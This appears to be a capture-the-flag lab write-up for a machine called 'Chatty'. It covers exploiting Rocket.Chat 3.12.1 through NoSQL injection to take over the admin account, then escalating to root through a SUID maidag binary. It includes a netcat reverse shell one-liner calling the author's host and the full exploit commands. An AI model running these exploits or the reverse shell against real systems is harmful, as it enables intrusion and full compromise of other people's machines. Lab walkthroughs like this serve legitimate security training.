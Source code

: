 # Chatty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 1000 192.168.183.164
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:32 +08
Warning: 192.168.183.164 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.164
Host is up (0.17s latency).
Not shown: 65500 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Rocket Chat --> Admin Takeover

Port 3000 hosted an instance of Rocket Chat:

<figure><img src="../../../.gitbook/assets/image (69) (1).png" alt=""><figcaption></figcaption></figure>

We can enumerate the version by visiting the `/api/info` page:

```
$ curl http://192.168.183.164:3000/api/info | jq 
{
  "version": "3.12.1",
  "success": true
}
```

This version of Rocket Chat is vulnerable to a NoSQL Injection exploit:

```
$ searchsploit rocket chat 3.12
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)     | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticat | linux/webapps/50108.py
----------------------------------------------------------- ---------------------------------
```

I registered a new account and found the administrator profile of this instance:

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

We can use `50108.py` to exploit this. Since we created our own low priv user, we can comment the part of the script that resets the low priv user's password:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

Then, we also need to change the `password` of the low priv user to the one that we used.&#x20;

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

After running the exploit, we would be given RCE access, and getting a reverse shell is pretty simple:

```
$ python3 50108.py -u 'test@website.com' -a 'admin@chatty.offsec' -t 'http://192.168.183.164:3000'
[+] Succesfully authenticated as test@website.com
Got the code for 2fa: GJLFCKKOOBCVOYSCOJYHCUZ7NAUSUMKYEZAF43RVJ5KC62JYGVYA
[+] Resetting admin@chatty.offsec password
[+] Password Reset Email Sent
[+] Succesfully authenticated as test@website.com
Got the reset token: GsL4Y53r7id414kW7PYJsZVO5YkZkkz4eCvPOrybMkl
[+] Admin password changed !
CMD:> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 21 >/tmp/f
[+] Succesfully authenticated as administrator
{"success":false}
```

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> MaiDag CVE

I searched for SUID binaries within the system, and found one that stood out:

```
rocketchat@chatty:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/local/sbin/maidag
```

I didn't recognise `maidag`, and so enumerated it first.&#x20;

```
rocketchat@chatty:~$ /usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Googling the binary and its version returns a Local Privilege Escalation exploit:

{% embed url="https://www.exploit-db.com/exploits/47703" %}

There are online exploits on Github to make this process as easy as possible:

{% embed url="https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862" %}

I used `exploit.ldpreload.sh` and ran it on the machine. This would spawn a binary `sh` within `/var/tmp` that would give us a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!
